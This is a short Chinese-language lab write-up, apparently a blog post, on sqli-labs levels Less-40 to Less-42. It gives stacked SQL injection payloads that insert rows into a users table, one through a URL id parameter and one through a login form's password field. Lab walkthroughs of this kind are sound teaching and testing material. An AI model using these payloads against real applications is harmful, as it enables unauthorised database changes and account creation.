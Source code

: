 

<img src="https://i-blog.csdnimg.cn/blog_migrate/93d4fed7ce3b59b3a89885af806c802d.png" alt="" style="max-height:291px; box-sizing:content-box;" />






<img src="https://i-blog.csdnimg.cn/blog_migrate/4550652d15e3a0040a970bb543bb12be.png" alt="" style="max-height:122px; box-sizing:content-box;" />


## Less-40

依然是堆叠 闭合条件为 1')

## Less-41



<img src="https://i-blog.csdnimg.cn/blog_migrate/67af19028afc8064d5c8308142f65cd7.png" alt="" style="max-height:369px; box-sizing:content-box;" />


整型



<img src="https://i-blog.csdnimg.cn/blog_migrate/c424479059dac3d38f95978cec2d0b86.png" alt="" style="max-height:54px; box-sizing:content-box;" />


可以使用堆叠注入

```cobol
/?id=1;insert into users(id,username,password) values ('100','li','x')-- +
```

## Less-42  密码处实现堆叠注入



<img src="https://i-blog.csdnimg.cn/blog_migrate/9e79c1e2c45a2a3658ca2288053ea23e.png" alt="" style="max-height:449px; box-sizing:content-box;" />


让我们登入后再继续

通过fuzz 发现无法实现注入

我们猜测是不是在username 或者 password中存在堆叠注入

经过测试在密码处存在注入

```cobol
login_user=admin&login_password=aa';insert into users(id,username,password) values('100','123','123');-- +&mysubmit=Login
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/92d0f2ad1a5a562f0c07c19893af64cd.png" alt="" style="max-height:113px; box-sizing:content-box;" />



